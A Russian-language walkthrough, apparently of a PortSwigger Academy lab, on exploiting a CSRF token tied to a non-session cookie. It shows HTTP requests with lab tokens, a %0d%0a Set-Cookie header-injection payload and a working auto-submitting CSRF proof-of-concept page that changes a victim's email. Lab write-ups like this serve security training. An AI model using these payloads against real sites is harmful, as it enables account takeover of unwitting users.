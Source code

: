 В вариации предыдущей уязвимости некоторые приложения действительно привязывают токен CSRF к файлу cookie, но не к тому же файлу cookie, который используется для отслеживания сеансов. Это может легко произойти, если приложение использует две различные платформы, одну для обработки сеансов и одну для защиты CSRF, которые не интегрированы вместе:
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```
как видим тут 2 разных `csrfKey` и `csrf`

Эту ситуацию труднее использовать, но она все еще уязвима. Если веб-сайт содержит какое-либо поведение, которое позволяет злоумышленнику установить файл `cookie` в браузере жертвы, то атака возможна. Злоумышленник может войти в приложение, используя свою собственную учетную запись, получить действительный токен и связанный с ним файл `cookie`, использовать поведение настройки файлов `cookie` для размещения своего файла `cookie` в браузере жертвы и передать свой токен жертве в ходе атаки CSRF.

логинимся под `wiener:peter`

и включаем `proxy` -> `intercept `

и пытаемся сменить пароль на `change@me.com`

и отправляем данный запрос в `Repeater`, а в проксе запрос дропаем
```
POST /my-account/change-email HTTP/2
Host: 0a6b009503b2a0838012c6b0006e00b0.web-security-academy.net
Cookie: csrfKey=ssGmYFn9dNvnvgaX7OFIdwo7hvG7niuR; session=OqctZvKHzqNYVo76Zi9FNLR3aRKY2Taj
...
email=change%40me.com&csrf=EFhYOFcLdoMLyHw4cExoSUTId8p8dDyr
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/5.%20CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/pics%20for%20walkthrough/1.png)

Видим, что существуют 2 параметра `csrfKey` и `csrf token`, которые могут быть связаны между собой

Если изменить один из них, то получим отказ
К примеру, к csrf token добавим `qqqq`, тем самым делая его другим
```
csrfKey=ssGmYFn9dNvnvgaX7OFIdwo7hvG7niuR
csrf=EFhYOFcLdoMLyHw4cExoSUTId8p8dDyrqqqq
```
и получим ответ 
```
"Invalid CSRF token"
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/5.%20CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/pics%20for%20walkthrough/2.png)
Далее, необходимо проверить, связаны ли эти 2 токена с сессией. Иначе говоря, если подставить `session` другого пользователя, изменится ли почтовый ящик?

Этим мы и займемся

Далее в режиме инкогнито зайдем под `carlos:montoya`
и увидим у него следующие токены
```
session aC53cJ8ZFwCaJLEJVx3Qlhb76W3Eaidj
csrfKey asdedxCbt8ydrAqg7DNX1mz48nCnNstQ
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/5.%20CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/pics%20for%20walkthrough/3.png)
На данный момент нужен только `session` токен

Вернемся в наш старый репитер и изменим параметр сессии на карлосовский
```
POST /my-account/change-email HTTP/2
Host: 0a6b009503b2a0838012c6b0006e00b0.web-security-academy.net
Cookie: csrfKey=ssGmYFn9dNvnvgaX7OFIdwo7hvG7niuR; session=aC53cJ8ZFwCaJLEJVx3Qlhb76W3Eaidj
email=change2%40me.com&csrf=EFhYOFcLdoMLyHw4cExoSUTId8p8dDyr
```
и видим, что email у сarlos'a сменился на `change2@me.com`
Оттого делаем вывод, что `CSRFkey` и `csrf` токены связаны между собой, но не связаны с сессией пользователя, под которой он сидит

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/5.%20CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/pics%20for%20walkthrough/4.png)

Далее. Если мы вернемся на страницу с блогами, и введем в поисковую строку `test`, далее пройдем в `Proxy` -> `HTTP history`

Заметим следующую особенность. После выполнения поиска в куки записывается параметр 
```
LastSearchTerm=test
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/5.%20CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/pics%20for%20walkthrough/5.png)

`%0d%0a` - перевод строки

добавим и установим куки пользователя `carlos` - `asdedxCbt8ydrAqg7DNX1mz48nCnNstQ`
```
GET /?search=test%0d%0aSet-Cookie:%20asdedxCbt8ydrAqg7DNX1mz48nCnNstQ HTTP/2
```
и видим, что действительно обновилась кука у нашего пользователя

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/5.%20CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/pics%20for%20walkthrough/6.png)

Далее вернемся к запросу по смене почты у обычного пользователя
```
POST /my-account/change-email HTTP/2
```

и нажмем `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC`
```

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6b009503b2a0838012c6b0006e00b0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change2&#64;me&#46;com" />
      <input type="hidden" name="csrf" value="EFhYOFcLdoMLyHw4cExoSUTId8p8dDyr" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
и изменим данный PoC
Куки и токены атакера:
```
csrfKey=asdedxCbt8ydrAqg7DNX1mz48nCnNstQ; 
session=aC53cJ8ZFwCaJLEJVx3Qlhb76W3Eaidj
csrf=OIMtWwFIxjpS9mCqv3OEd34gfzpQETfm
```
и изменим поля, добавив 
```
<img src="https://0a6b009503b2a0838012c6b0006e00b0.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=asdedxCbt8ydrAqg7DNX1mz48nCnNstQ%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

И получим следующий PoC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6b009503b2a0838012c6b0006e00b0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change2&#64;me&#46;com" />
      <input type="hidden" name="csrf" value="OIMtWwFIxjpS9mCqv3OEd34gfzpQETfm" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a6b009503b2a0838012c6b0006e00b0.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=asdedxCbt8ydrAqg7DNX1mz48nCnNstQ%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
Нажмем `store` и `Deliver exploit to victim` и получим уведомление об успешно выполненной атаке
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/5.%20CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/pics%20for%20walkthrough/7.png)
